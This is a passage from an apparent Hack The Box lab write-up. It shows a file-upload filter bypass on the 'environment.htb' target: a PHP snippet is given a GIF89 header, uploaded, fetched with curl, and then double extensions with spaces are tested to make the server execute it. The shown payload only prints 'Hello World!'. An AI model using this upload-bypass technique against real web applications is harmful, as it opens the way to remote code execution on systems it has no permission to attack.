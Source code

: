But get the error message `Invalid file detected`.

![](images/Pasted%20image%2020250720182840.png)

I add `GIF89` as the header to the file and change the PHP code to display `Hello World!`.

```
fcoomans@kali:~/htb/environment$ echo -e 'GIF89\n<?php echo("Hello World!"); ?>' >hello.gif

fcoomans@kali:~/htb/environment$ cat hello.gif
GIF89
<?php echo("Hello World!"); ?>
```

The file is now detected as a GIF image file.

```
fcoomans@kali:~/htb/environment$ file hello.gif 
hello.gif: GIF image data 16188 x 26736
```

I upload `hello.gif`, but when I try to access the file using `curl`, notice that the file is not executed, but the PHP code is printed instead.  The extension has to be changed to something that PHP can execute.

```
fcoomans@kali:~/htb/environment$ curl -s "http://environment.htb/storage/files/hello.gif"
GIF89
<?php echo("Hello World!"); ?>
```

Adding a double-extension with a space reveals a crucial piece of information;  `hello .php .gif` is saved as `hello .php.gif`.  What happened to the second space?  It looks like the application removed it!
